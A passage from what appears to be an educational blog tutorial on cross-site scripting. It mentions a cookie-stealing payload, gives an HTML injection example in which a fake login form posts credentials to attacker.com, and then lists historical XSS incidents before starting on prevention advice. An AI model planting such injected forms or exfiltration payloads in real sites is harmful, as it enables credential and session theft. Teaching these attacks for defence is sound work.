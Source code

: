 This payload sends the victim's cookies to the attacker's server.

**Important:** Modern browsers implement HttpOnly cookies to prevent this. However, legacy systems may still be vulnerable.

---

### 5\. Phishing via HTML Injection

Attackers can inject fake login forms to trick users into entering credentials.

#### Example:

```html
<form action="http://attacker.com/login">
  <input type="text" name="user" />
  <input type="password" name="pass" />
  <input type="submit" />
</form>
```

Victims may mistake this for a legitimate login form and unknowingly submit their credentials.

---

## **Case Studies: XSS in the Wild**

| Target | Year | Type | Impact |
| --- | --- | --- | --- |
| **MySpace** | 2005 | Stored | 1M profiles infected in hours |
| **eBay** | 2015–16 | Reflected | Account takeover via URL |
| **Twitter** | 2009 | Stored | Auto-retweet worm spread fast |
| **British Airways** | 2018 | Reflected | Credit card skimming |
| **Fortnite** | 2019 | Reflected | Session hijacking potential |

---

## **Preventing XSS: Your Security Toolkit**

![Preventing XSS: Your Security Toolkit](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/7dlzsa9k3fevmr4dt83o.png align="left")

### 1\. **Input Validation**

* Use allowlists
    
* Sanitize special characters
    
* Check input length and format
    

### 2\. **Output Encoding**
